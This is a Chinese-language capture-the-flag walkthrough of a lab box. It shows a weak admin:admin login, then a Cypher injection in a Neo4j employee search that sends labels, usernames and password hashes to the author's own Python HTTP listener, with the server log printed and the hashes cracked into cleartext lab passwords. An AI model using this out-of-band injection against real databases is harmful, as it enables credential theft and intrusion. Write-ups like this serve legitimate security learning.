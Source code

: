 ### 弱密码登陆本地端口3000

弱密码，admin:admin。进去后看Tasks标注“迁移到新数据库Neo4j”。那有可能这边才是注入的地方。

### Cypher Query Injection

参照上面几篇文章，用python在本地开个简单的http服务进行测试。  
然后在EMPLOYEES菜单的搜索框发现注入点，可以进行暴库。  
*一开始复制payload在CyberChef普通地选上URL编码不大行，后面注意到payload里面有加号，然后在CyberChefURL编码时勾上处理所有特殊字符才注入OK。*  
*而且admin登陆会话还有时限，过一段时间总要再次登陆获取活跃会话才能顺利POST注入payload*  
*以及事后回顾才发现这次真是好运，参考文章的payload里这个 `MATCH (f:user)` 是正好这次枚举出来有的label。当时是想都没想直接复制着用了，要是不行的话指不定会卡多久……*  
*还有不大明白为什么一次请求会返回好多条响应……*

```log
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [31/May/2023 08:10:16] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [31/May/2023 08:10:16] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
10.10.11.210 - - [31/May/2023 08:10:38] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [31/May/2023 08:29:19] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -

10.10.11.210 - - [31/May/2023 08:29:28] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:29:28] "GET /?label=employee HTTP/1.1" 200 -
……

10.10.11.210 - - [31/May/2023 08:30:28] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:29] "GET /?username=john HTTP/1.1" 200 -
……
```

### 获得凭据

密码一开始想着 `john` 暴破不过没成功，`hash-identifier`甚至把密文识别为SHA-256。  
后来直接扔进这里试了下就出来了：<https://www.somd5.com/>

将log稍作整理，并解密后，我们得到了如下信息：

| username | password | 解密 |
| - | - | - |
| admin | 8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 | admin |
| john  | a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 | ThisIs4You |

记得还有个本地端口3000，admin弱密码之前试过了，用john进去看看有什么信息。不过很遗憾只有一个Test仓库，还是私人的，没任何有用的信息了。
